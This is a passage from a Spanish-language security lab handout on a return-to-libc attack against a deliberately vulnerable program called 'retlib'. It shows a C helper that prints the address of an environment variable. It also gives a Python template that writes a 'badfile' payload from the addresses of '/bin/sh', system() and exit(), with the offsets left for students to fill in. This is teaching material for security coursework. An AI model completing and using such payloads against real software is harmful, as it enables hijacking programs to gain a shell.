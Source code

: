 \begin{lstlisting}
void main(){
   char* shell =  getenv("MYSHELL");
   if (shell) 
      printf("%x\n", (unsigned int)shell);
}
\end{lstlisting}

Compile el código anterior dentro de un binario llamado \texttt{prtenv}. 
Si el address randomization está desactivado, la dirección de memoria de la variable mostrada por \texttt{prtenv} deberá de coincidir por la que se muestra en el programa vulnerable \texttt{retlib}. Puede verificar ubicando el código mostrado anteriormente dentro de \texttt{retlib.c}. 
Sin embargo tenga en cuenta que la longitud del nombre de programa hace la diferencia, es por eso que elejimos 6 caracteres para \texttt{prtenv} como para 
\texttt{retlib}, ambos nombres deben de tener la misma longitud.



\subsection{Tarea 3: Lanzando el Ataque}

Ya estamos listos para generar el contenido de nuestro archivo \texttt{badfile}.
Dado que nuestro contenido incluye datos en binario (por ejemplo: las direcciones de las funciones de \texttt{libc}), podemos usar Python para construir el contenido.
A continuación hemos provisto un código genérico con las partes esenciales que deben de ser completadas por ud.


\begin{lstlisting}
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

X = 0
sh_addr = 0x00000000       # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

Y = 0
system_addr = 0x00000000   # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = 0
exit_addr = 0x00000000     # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
\end{lstlisting}
 
Su objetivo es encontrar las tres direcciones de memoria para los valores de \texttt{X}, \texttt{Y}, y \texttt{Z}. 
Si los valores no son los correctos, el ataque fallará. En el informe de laboratorio deberá de explicar como es que obtuvo los valores para {\tt X}, {\tt Y} y {\tt Z}. Explique su razonamiento o si decide utilizar un enfoque de prueba y error, muestre sus pruebas.


